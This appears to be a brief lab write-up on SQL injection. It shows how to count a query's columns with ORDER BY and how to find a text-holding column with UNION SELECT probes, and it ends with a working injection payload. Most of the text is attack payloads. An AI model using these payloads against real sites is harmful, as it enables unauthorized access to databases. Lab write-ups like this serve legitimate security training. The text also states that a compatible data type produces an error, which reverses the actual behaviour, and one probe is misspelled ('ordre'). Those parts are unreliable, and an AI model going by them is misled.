 # Finding a column containing text

Just like previous lab here we are going to use **UNION** 
attack but to find text given to us

example query

```sql
' union select 'a',null,null,null--
' union select null,'a',null,null--
' union select null,null,'a',null--
' union select null,null,null,'a'--
```

if the data type is compatible with the injected string , it will return error

end goal: to find a text conatining column

but first we need to find total number of columns here

```sql
' order by 1--
' order by 2--
' ordre by 3--
```

here we have three colummn in which second column contains text , so now time for our payload

payload

```sql
' union select null, 'OOpujD', null--
```
